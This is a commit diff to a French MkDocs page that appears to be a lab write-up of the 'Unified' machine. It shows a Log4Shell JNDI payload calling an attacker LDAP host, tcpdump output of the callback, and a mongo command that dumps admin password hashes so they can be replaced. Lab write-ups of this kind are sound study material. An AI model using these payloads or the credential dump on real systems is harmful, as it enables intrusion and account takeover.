

Before and after one commit to rnek0/lunarDocs, an MkDocs documentation site: the page built from docs/tiers2/unified.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
+ Commentaires sur le test de verification de la vuln

````diff
--- a/docs/tiers2/unified.md
+++ b/docs/tiers2/unified.md
@@ -6,9 +6,18 @@ Cette machine est intéressante vu que Log4j a supris tout le monde, étant donn
 
 ## On teste la vulnerabilité
 
-On se sert du champ remember pour y introduire un appel ldap
+On se sert du champ remember avec le repeater de burpsuite pour y introduire un appel ldap, on est à l'écoute avec tcpdump
 
 ${jndi:ldap://10.10.14.19/whatever}
+
+```bash
+❯ tcpdump -i tun0 port 389 -v
+tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
+03:18:20.530190 IP (tos 0x0, ttl 63, id 10956, offset 0, flags [DF], proto TCP (6), length 60)
+    10.129.125.109.60474 > 10.10.14.19.ldap: Flags [S], cksum 0xf4e8 (correct), seq 339107591, win 64240, options [mss 1360,sackOK,TS val 2396506282 ecr 0,nop,wscale 7], length 0
+03:18:20.530225 IP (tos 0x0, ttl 64, id 0, offset 0, flags [DF], proto TCP (6), length 40)
+    10.10.14.19.ldap > 10.129.125.109.60474: Flags [R.], cksum 0xaec7 (correct), seq 0, ack 339107592, win 0, length 0
+```
 
 ## On construit l'application java rogue-jndi avec maven
 
@@ -75,7 +84,11 @@ unifi@unified:/usr/lib/unifi$
 
 ## On se connecte a mongo pour chercher le pass de l'admin
 
-Une fois trouve on va le remplacer par le notre
+```bash
+unifi@unified:/home/michael$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
+```
+
+Une fois trouvé on va le remplacer par le notre
 
 1. On cree le pass en sha-512
 
````
